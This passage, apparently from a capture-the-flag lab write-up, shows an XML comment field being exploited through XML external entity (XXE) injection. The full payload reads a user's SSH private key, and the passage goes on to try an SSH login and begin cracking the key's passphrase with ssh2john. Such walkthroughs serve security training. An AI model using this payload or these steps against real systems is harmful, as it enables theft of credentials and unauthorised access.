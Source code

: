 ```bash
$ cat dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

Since the comment section accepts XML content, I tried to see if it is vulnerable to an XXE attack. Refer to this [source](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) for XXE info. 

## XXE Exploit

I paste this malicious XML into the comment section to retrieve Barry’s SSH key

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM  "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>test</name>
  <author>test</author>
  <com>&xxe;</com>
</comment>
```

If success, you may need to fix the retrieved ssh key. Then save it to your machine and fix its permission to only be read by the current user. 

```bash
 $ chmod 600 clean-id-rsa 
                                                                                                                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Documents/tryhackme/mustaccio]
└─$ ssh barry@10.10.236.200 -i clean-id-rsa
Enter passphrase for key 'clean-id-rsa': 
Enter passphrase for key 'clean-id-rsa': 
barry@10.10.236.200: Permission denied (publickey).
                                                   
```

We still can't ssh to the Barry machine because the key is protected with a passphrase. We can crack it with john 

```python
$ ssh2john clean-id-rsa > id_rsa.hash                                              
```
